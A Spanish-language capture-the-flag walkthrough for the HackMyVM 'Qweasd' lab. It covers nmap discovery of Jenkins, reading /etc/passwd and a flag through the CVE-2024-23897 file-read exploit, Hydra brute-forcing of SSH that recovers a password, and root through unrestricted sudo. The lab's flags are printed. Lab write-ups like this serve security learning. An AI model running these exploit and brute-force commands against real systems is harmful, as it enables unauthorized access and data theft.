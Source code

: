 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Qweasd HackMyVM (Intermediate - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-03 02:27 EDT
Nmap scan report for 192.168.1.167
Host is up (0.00067s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:b1:dc:5b:9e:54:8c:bd:24:4c:43:0c:25:fd:4d:d8 (ECDSA)
|_  256 29:71:69:ca:bc:74:48:26:45:34:77:69:29:a5:d2:fc (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-title: Dashboard [Jenkins]
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Jetty(10.0.18)
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 08:00:27:35:7A:0D (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.03 seconds
```

Vemos que tenemos un puerto `8080` en el que de primeras el escaneo de `nmap` ya nos dice que es un `Jenkins`, si entramos dentro veremos que ciertamente se trata de un `Jenkins` pero nos dejara entrar de forma anonima, por lo que vamos a investigar.

Si leemos abajo a la derecha, veremos la version del `Jenkins`:

<figure><img src="../../.gitbook/assets/image (339).png" alt=""><figcaption></figcaption></figure>

Vamos a buscar algun `exploit` que este asociado a dicha version, si empezamos a buscar veremos que si lo encontraremos y sera para leer archivos de forma arbitraria en el sistema (`LFI`) que pertenece al `CVE-2024-23897`, si nos decargarmos el `exploit` de `Exploit DB`:

URL = [Download Exploit LFI Jenkins](https://www.exploit-db.com/exploits/51993)

Una vez descargado vamos a utilizarlo de la siguiente forma:

```shell
python3 51993.py -u http://<IP>:8080/ -p /etc/passwd
```

Info:

```
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
penetration:x:1001:1001::/home/penetration:/bin/bash
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
kali:x:1000:1000:asd:/home/kali:/bin/bash
root:x:0:0:root:/root:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

Vemos que ha funcionado y obtendremos `2` usuarios a nivel de sistema:

```
penetration:x:1001:1001::/home/penetration:/bin/bash
kali:x:1000:1000:asd:/home/kali:/bin/bash
```

Vamos a probar a leer la `flag` del usuario en este caso de `penetration`:

```shell
python3 51993.py -u http://<IP>:8080/ -p /home/penetration/user.txt
```

> user.txt

```
flag{Whynotjoinsomehackercommunicationgroups_}
```

## Escalate user penetration

### Hydra

Vamos a realizar un ataque de fuerza bruta al usuario `kali` para ver si obtenemos algo.

```shell
hydra -l kali -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-03 02:49:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.1.167:22/
[22][ssh] host: 192.168.1.167   login: kali   password: asdfgh
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 30 final worker threads did not complete until end.
[ERROR] 30 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-03 02:49:39
```

Vemos que obtuvimos las credenciales del usuario `kali` por lo que nos conectaremos por `SSH`.

### SSH

```shell
ssh kali@<IP>
```

Metemos como contraseña `asdfgh` y veremos que estamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for kali on asd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User kali may run the following commands on asd:
    (ALL : ALL) ALL
```

Vemos que podemos ejecutar cualquier cosa como el usuario `root` por lo que haremos lo siguiente:

```shell
sudo su
```

Info:

```
root@asd:/home/kali# whoami
root
```

Y con esto ya seremos `root`, por lo que leeremos la `flag` del `root`.

> root.txt

```
flag{Hackercommunicationgroup660930334iswaitingforyoutojoin_}
```
